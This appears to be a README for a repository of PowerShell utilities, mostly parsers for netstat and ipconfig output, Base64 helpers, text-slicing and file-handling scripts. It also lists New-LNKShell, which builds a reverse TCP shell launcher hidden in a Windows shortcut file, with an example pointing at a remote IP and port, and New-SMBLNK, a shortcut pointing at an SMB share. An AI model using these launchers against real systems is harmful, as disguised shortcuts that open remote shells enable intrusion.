This repository contains simple PowerShell tools used for parsing text, remotely gathering data, and doing stupid
things like encoding and decoding Base64.

#NetworkParsers
Collection of tools for parsing output of basic network commands

##Import-Netstat
Parses saved Netstat output (supports any/all of -a, -n, -o) and returns an object.

```
Import-Netstat -Path C:\Path\To\File(s)
```

##Import-IPConfig
Parses text files containing output of ipconfig or ipconfig /all and returns an object.

```
Import-IPConfig -Path C:\Path\To\File(s)
```
---
##Get-Base.ps1
Encode text to a Base64 string and back again.

```
Get-Base -String 'Hello World!' >>> SGVsbG8gV29ybGQh
Get-Base -Base64 'SGVsbG8gV29ybGQh' >>> Hello World!
```

##Get-Slice.ps1
Grab a slice of text from target file. Ideally this merges with Get-Substring.

```
Get-Slice.ps1 -Text "sample.txt" -Start "The quick brown" -End "lazy dog"
```

##Get-Substring.ps1
Returns the text between two strings.

```
Get-Substring -Start 'The quick' -End 'lazy dog' -Path C:\StoryAboutAFox.txt
```

##New-LNKShell.ps1
Creates a reverse TCP shell launcher embedded in a LNK file.

```
New-LNKShell -ComputerName 192.168.1.1 -Port 4444 -Application calc.exe
```
##New-SMBLNK.ps1

```
.\New-SMBLNK.ps1 -ComputerName 192.168.1.1 -Share Files -Application calc.exe
```

##Get-Files.ps1
Loops through a folder tree and copies all matching files to a directory. Takes string, array, or file input.

```
.\Get-File.ps1 -Path 'C:\Path\To\Files' -TargetList C:\List\Of\files.txt -OutputPath C:\Path\To\Output -Verbose
```

##Remove-Files.ps1
Removes files older than n days. Defaults to C:\Users\<YOU>\Downloads and 30 days

```
Remove-Files -Path C:\Path\To\Files -MaxAge 60
```

##Test-Port.ps1
Checks for open port and returns $True if open.

```
Test-Port.ps1 -Protocol TCP -Port 3389 -Targets 192.168.1.10
```
